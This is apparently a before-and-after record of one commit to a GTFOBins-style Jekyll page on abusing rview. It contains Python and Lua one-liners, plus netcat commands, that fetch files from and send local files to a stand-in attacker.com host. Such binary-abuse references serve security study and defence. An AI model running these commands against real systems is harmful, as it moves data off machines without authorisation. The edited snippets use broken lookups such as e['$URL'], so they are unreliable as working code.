

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/rview.md, in a window 1280 px wide and 1400 px high, scrolled down 254 px, cut to the strip 85-1400 px from the top of the window. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update rview.md

```diff
--- a/_gtfoud/rview.md
+++ b/_gtfoud/rview.md
@@ -3,54 +3,45 @@
   file-download:
     - description: This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.
       code: |
-        export URL=http://attacker.com/file_to_get
-        export LFILE=file_to_save
         rview -c ':py import vim,sys; from os import environ as e
         if sys.version_info.major == 3: import urllib.request as r
         else: import urllib as r
-        r.urlretrieve(e["URL"], e["LFILE"])
+        r.urlretrieve(e["$URL"], e["$LFILE"])
         vim.command(":q!")'
-    - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `rview` is compiled with Lua support and that `lua-socket` is installed.
+    - description: Fetch a remote file via TCP. Run `nc target.com 4444 < "file_to_send"` on the attacker box to send the file. This requires that `rview` is compiled with Lua support and that `lua-socket` is installed.
       code: |
-        export LPORT=12345
-        export LFILE=file_to_save
         rview -c ':lua local k=require("socket");
-          local s=assert(k.bind("*",os.getenv("LPORT")));
+          local s=assert(k.bind("*",os.getenv("$LPORT")));
           local c=s:accept();
           local d,x=c:receive("*a");
           c:close();
-          local f=io.open(os.getenv("LFILE"), "wb");
+          local f=io.open(os.getenv("$LFILE"), "wb");
           f:write(d);
           io.close(f);'
-  server:
     - description: This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
       code: |
-        export URL=http://attacker.com/
-        export LFILE=file_to_send
         rview -c ':py import vim,sys; from os import environ as e
         if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
         else: import urllib as u, urllib2 as r
-        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
+        r.urlopen(e["$URL"], bytes(u.urlencode({"d":open(e["$LFILE"]).read()}).encode()))
         vim.command(":q!")'
+  server:
     - description: This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
       code: |
-        export LPORT=8888
         rview -c ':py import vim,sys; from os import environ as e
         if sys.version_info.major == 3: import http.server as s, socketserver as ss
         else: import SimpleHTTPServer as s, SocketServer as ss
-        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
+        ss.TCPServer(("", int(e["$LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
         vim.command(":q!")'
-    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires that `rview` is compiled with Lua support and that `lua-socket` is installed.
+  file-upload:
+    - description: Send a local file via TCP. Run `nc -l -p 4444 > "file_to_save"` on the attacker box to collect the file. This requires that `rview` is compiled with Lua support and that `lua-socket` is installed.
       code: |
-        export RHOST=attacker.com
-        export RPORT=12345
-        export LFILE=file_to_send
-        rview -c ':lua local f=io.open(os.getenv("LFILE"), 'rb')
+        rview -c ':lua local f=io.open(os.getenv("$LFILE"), 'rb')
           local d=f:read("*a")
           io.close(f);
           local s=require("socket");
           local t=assert(s.tcp());
-          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
+          t:connect(os.getenv("$RHOST"),os.getenv("$RPORT"));
           t:send(d);
           t:close();'
 ---
```
